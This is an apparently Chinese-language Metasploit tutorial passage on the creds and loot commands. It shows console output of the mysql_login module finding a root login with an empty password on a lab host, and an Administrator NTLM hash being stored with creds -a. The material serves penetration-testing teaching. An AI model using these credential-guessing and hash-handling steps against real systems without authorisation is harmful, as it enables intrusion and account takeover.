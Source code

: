 下面给出一个渗透成功后的例子：

```shell

msf  auxiliary(mysql_login) > run

[*] 172.16.194.172:3306 MYSQL - Found remote MySQL version 5.0.51a
[*] 172.16.194.172:3306 MYSQL - [1/2] - Trying username:'root' with password:''
[*] 172.16.194.172:3306 - SUCCESSFUL LOGIN 'root' : ''
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


msf  auxiliary(mysql_login) > creds 

Credentials
===========

host            port  user  pass  type      active?
----            ----  ----  ----  ----      -------
172.16.194.172  3306  root        password  true

[*] Found 1 credential.
msf  auxiliary(mysql_login) >

```

如果收集到一些口令信息，可以使用 ```creds -a``` 保存它们到数据库中。

```shell
msf > creds -a 172.16.194.134 -p 445 -u Administrator -P 7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
[*] Time: 2012-06-20 20:31:42 UTC Credential: host=172.16.194.134 port=445 proto=tcp sname= type=password user=Administrator pass=7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e::: active=true

msf > creds

Credentials
===========

host            port  user           pass                                                                  type      active?
----            ----  ----           ----                                                                  ----      -------
172.16.194.134  445   Administrator  7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::  password  true

[*] Found 1 credential.
```

#### 2.5.10 LOOT

如果成功渗透了某个系统，一些hash值将存储在数据库中。可以使用 ```loot``` 命令查看这些值。
